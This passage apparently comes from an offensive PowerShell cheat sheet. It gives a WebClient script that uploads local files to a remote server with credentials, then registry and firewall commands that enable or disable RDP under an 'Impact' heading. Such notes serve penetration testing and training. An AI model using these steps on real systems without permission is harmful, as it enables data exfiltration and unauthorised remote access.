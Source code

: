 ```
$WebClient = new-object System.Net.WebClient
$WebClient.Headers.Add("Authorization", "Basic " + $encodedCreds)
$WebClient.Headers.Add("X-Atlassian-Token", "nocheck")
$WebClient.UploadFile($url, (Get-Location).Path + "\" + $filename)
```


2. Upload files to server


`./upload.ps1 <https://ip:port/> <admin:password> <file (in current dir)>`

`./upload.ps1 https://192.168.46.1:4433/ admin:password file_to_upload`

# Impact

## Enable Disable and Stop Services

### General

TODO

###  RDP

**Enable RDP**

*Requires admin privileges*

Enable the remote desktop protocol

`Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0`

Enable remote desktop through the Windows Firewall

`Enable-NetFirewallRule -DisplayGroup "Remote Desktop"`


**Disable RDP**

Disable the remote desktop protocol

`Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 1`

Disable remote desktop through the Windows Firewall

`Disable-NetFirewallRule -DisplayGroup "Remote Desktop"`

# Active Directory

## Enumeration

### Basic Enumeration
